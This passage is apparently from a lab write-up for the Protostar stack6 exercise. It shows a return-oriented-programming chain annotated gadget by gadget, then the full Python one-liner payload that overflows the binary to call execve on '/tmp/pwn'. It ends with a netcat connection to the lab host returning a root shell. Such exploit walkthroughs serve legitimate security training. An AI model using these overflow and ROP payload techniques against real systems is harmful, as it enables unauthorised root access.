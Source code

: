 	# Perform the move to .data
	    0xb7f0b997 <- Return address (mov dword [ecx], edx; ret)
	# Load the final target address in .data
	    0xb7fcc19d <- Return address (pop ecx; ret)
	    0x08049718 <- Target memory address in .data + 4 bytes
	# Load the NULL into edx 
	    0xb7e98a9e <- Return address (pop edx; ret)
	    0x00000000 <- NULL bytes
	# Perform the move to .data
	    0xb7f0b997 <- Return address (mov dword [ecx], edx; ret)
	# Load registers
	    0xb7f6fa81 <- Return address (pop edx; pop ecx; pop ebx; ret)
	    0x08049718 <- Argument 3 destined for edx - address of NULL
	    0x08049718 <- Argument 2 destined for ecx - address of NULL
	    0x08049710 <- Argument 1 destined for ebx - address of "/tmp/pwn"
	# Call execve
	    0xb7f2e193 <- Return Address (second ROP gadget)
	...
	<higher memory>

This now gives us the following payload:

	:::bash
	user@protostar:~$ python -c 'print "A"*80 + "\x9d\xc1\xfc\xb7" + "\x10\x97\x04\x08" + "\x9e\x8a\xe9\xb7" + "/tmp" + "\x97\xb9\xf0\xb7" + "\x9d\xc1\xfc\xb7" + "\x14\x97\x04\x08" + "\x9e\x8a\xe9\xb7" + "/pwn" + "\x97\xb9\xf0\xb7" + "\x9d\xc1\xfc\xb7" + "\x18\x97\x04\x08" + "\x9e\x8a\xe9\xb7" + "\x00\x00\x00\x00" + "\x97\xb9\xf0\xb7" + "\x81\xfa\xf6\xb7" + "\x18\x97\x04\x08" + "\x18\x97\x04\x08" + "\x10\x97\x04\x08" + "\x93\xe1\xf2\xb7"' > input
	user@protostar:~$ cat input | /opt/protostar/bin/stack6
	input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA������/tmp��������/pwn�������

And from another shell:

	:::bash
	$ nc 192.168.94.133 4444
	whoami
	root

